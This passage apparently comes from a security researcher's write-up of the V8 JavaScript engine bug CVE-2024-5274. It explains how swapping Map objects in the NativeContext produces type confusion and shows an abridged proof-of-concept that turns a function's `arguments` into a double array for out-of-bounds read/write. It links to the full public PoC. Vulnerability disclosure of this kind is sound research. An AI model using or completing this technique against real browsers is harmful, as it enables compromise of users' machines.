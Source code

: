 Although we cannot directly modify the Map objects, the `NativeContext` contains many Maps. If we read a Map from one slot and overwrite another slot's Map with it, can we cause type confusion? The answer is yes!

The following code is a simple PoC:

```javascript
function f1() {
  function hax() {
    // o60 is JS_ARGUMENTS_OBJECT_TYPE map with FAST_SLOPPY_ARGUMENTS_ELEMENTS
    // o110 is JS_ARRAY_TYPE map with PACKED_DOUBLE_ELEMENTS
    o60 = o110;
  }
  // ...
}
// ...

function hax2(a0) {
  // `arguments` is confused to double array now
  %DebugPrint(arguments);
}
hax2();
```

In the PoC, we confused the function's `arguments` with a double-element array, causing an OOB read/write. By achieving this type confusion, we can proceed with the classic V8 exploitation techniques. The related [PoC](https://github.com/DarkNavySecurity/PoC/tree/main/CVE-2024-5274) code and all native objects definitions have been made public in our GitHub repository.

Thus, through a seemingly insignificant issue in the parser, we managed to create a powerful exploitation primitive, allowing us to arbitrarily confuse different types within the JavaScript engine.